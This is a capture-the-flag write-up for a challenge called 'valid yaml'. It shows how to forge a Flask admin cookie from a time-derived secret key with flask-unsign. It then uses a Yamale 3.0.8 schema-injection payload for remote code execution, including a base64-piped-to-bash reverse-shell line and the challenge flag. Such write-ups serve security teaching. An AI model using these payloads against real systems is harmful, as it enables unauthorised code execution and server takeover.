



# valid yaml
> Yet Another Markup Language, YAML, YAML Ain't Markup Language, Yamale

## About the Challenge
We were given a website with a source code (You can download the source code [here](src.zip)), on this website we can validate our YAML file



The website also utilizes `Yamale 3.0.8` to validate our YAML file."

## How to Solve?
Yamale 3.0.8 is vulnerable to RCE (You can check the detail [here](https://github.com/23andMe/Yamale/issues/167))

```python
schema = yamale.make_schema(content="""
name: str([x.__init__.__globals__["sys"].modules["os"].system("echo 'test' > test") for x in ''.__class__.__base__.__subclasses__() if "_ModuleLock" == x.__name__])
age: int(max=200)
height: num()
awesome: bool()
""")

# Create a Data object
data = yamale.make_data(content="""
name: Bill
age: 200
height: 6.2
awesome: True
""")

# Validate data against the schema. Throws a ValueError if data is invalid.
yamale.validate(schema, data)
```

But we can't exploit this vulnerability immediately because we can only control the data object, not the schema. However, if we check the source code, when logged in as an admin, we can create/edit our own schema.

```python
@app.route("/admin/schemas", methods=["GET", "POST"])
@authed_only
def schemas():
    if request.method == "GET":
        schemas = Schemas.query.all()
        return render_template("schemas.html", schemas=schemas)
    elif request.method == "POST":
        name = request.form["name"]
        content = request.form["content"]
        schema = Schemas(name=name, content=content)
        db.session.add(schema)
        db.session.commit()
        return redirect(url_for("schema", schema_id=schema.id))


@app.route("/admin/schemas/<int:schema_id>", methods=["GET", "POST"])
@authed_only
def schema(schema_id):
    schema = Schemas.query.filter_by(id=schema_id).first_or_404()
    if request.method == "GET":
        return render_template("schema.html", schema=schema)
    elif request.method == "POST":
        name = request.form["name"]
        content = request.form["content"]
        schema.name = name
        schema.content = content
        db.session.commit()
        return redirect(url_for("schema", schema_id=schema.id))
```

To logged in as an admin, we can manipulate the cookie because of the app secret key is predictable

```python
class Config(object):
    SECRET_KEY = hashlib.md5(
        datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M").encode()
    ).hexdigest()
    BOOTSTRAP_SERVE_LOCAL = True
    SQLALCHEMY_DATABASE_URI = "sqlite:///app.db"
    SQLALCHEMY_TRACK_MODIFICATIONS = False
```

Note when you deploy the website, then you will know the secret key. And then use `flask-unsign` command to create the cookie, here is the payload I used to login as an admin

```bash
flask-unsign --sign --cookie '{"id": 1}' --secret 'cb9a2657b00b63983cf7217b268855eb'
```



Use the public proof of concept to perform Remote Code Execution (RCE). Here is the schema I used to do a reverse shell.

```yaml
name: str([x.__init__.__globals__["sys"].modules["os"].system("echo AAAAAAAAAAA== | base64 -d | bash") for x in ''.__class__.__base__.__subclasses__() if "_ModuleLock" == x.__name__])
age: int(max=200)
height: num()
awesome: bool()
```



```
flag{not_even_apache_can_stop_the_mighty_eval}
```